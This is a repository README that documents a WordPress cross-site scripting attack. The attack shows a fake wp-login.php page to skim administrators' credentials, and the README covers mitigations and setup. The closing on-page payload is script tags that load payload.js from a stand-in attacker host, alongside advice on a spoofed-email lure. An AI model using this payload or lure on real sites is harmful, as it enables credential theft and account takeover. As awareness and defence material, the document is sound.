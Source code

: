 # WordPress XSS Fake wp-login.php Credential Skimming

This repo documents an attack on WordPress that allows to collect credentials of other WordPress users, e.g. admins. As it relies on a conceptual weakness of WordPress it will work on a fully patched system (probably) for years to come.

WARNING: This script is for educational purposes (e.g. awareness trainings) only! Do NOT use it to actually attack someone's website! To prevent script kiddies from using it, the actual code to send credentials to another server has been removed and it will instead be logging to the console.

## How the attack works

The attacker first needs a way to put JavaScript on a page. For example, editors have the "unfiltered_html" capability that allows them to put script-tags in posts. Having access to an editor's account is one way to carry out this attack.
Then, the attacker pastes a small piece of JavaScript code on the page that loads the contents of wp-login.php in the current page and changes the URL using the browser's history API. There is no visual difference between the original wp-login.php and the fake one. Even the URL is entirely the same. It should as well support custom-styled wp-login.php pages. (However, this depends on the actual configuration.) The only odd thing for a very attentive user might be a short flash of the original page.
As soon as someone submits the login form, the credentials are further processed by the attacker, the faked login page closes and reveals the original page, faking a successful login. During submission, it even waits a short time to simulate network delay.

To get an admin to enter her/his credentials a simple spoofed email might be sufficient, saying something like "Hi John, I discovered a bug on this page (URL to page) I'm unable to fix myself. Please help! (I set the page to be private so you might have to login.)". This is different from typical phishing mails as the URL is actually valid and clearly targets the actual site, not another phishing domain.

## Mitigation

This attack is successfull because an attacker is able to put malicious JavaScript code on a page and the skimmed credentials are sufficient to log in. Hence, securing the system against attackers by setting up two-factor authentication might be a good choice. Additionally, you could disallow the "unfiltered_html" capability from non-admin users, especially editors. Of course, fixing other XSS-related issues is as important. Additionally, you could setup Content Security Policy to disallow inline JavaScript.

## Setup

* Place payload.js on the attacker's server to be reachable from the target's machine.
* Modify the top settings in payload.js to fit the target and scenario.
* The payload is written to only log the credentials to the console. If you want to transmit them, you have to write this one-liner yourself. The position is marked in the code.
* Paste the on-page payload (see below) in the post's content to load the script.

## On-page payload

Put this piece of JavaScript on the page that allows to paste HTML into. The script requires jQuery. If the website's theme has already loaded it you can skip the first line.

```html
<script src="https://code.jquery.com/jquery-3.4.1.min.js"></script><!-- Only needed if the theme doesn't have jQuery loaded before. -->
<script src="https://www.attacker-website.com/payload.js"></script><!-- Replace with your target payload URL. -->
```